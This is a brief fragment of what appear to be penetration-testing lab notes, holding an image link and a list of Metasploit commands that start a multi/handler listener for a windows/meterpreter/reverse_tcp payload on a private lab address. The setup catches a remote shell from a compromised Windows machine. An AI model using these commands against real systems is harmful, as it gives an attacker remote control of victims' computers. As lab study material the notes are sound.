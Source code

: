         ![image.png](./imagenes/image%2072.png)
        
        - `use multi/handler`
        - `show options`
        - `set LHOST 10.0.3.4`
        - `set LPORT 444`
        - `set PAYLOAD windows/meterpreter/reverse_tcp`
        - `run`
            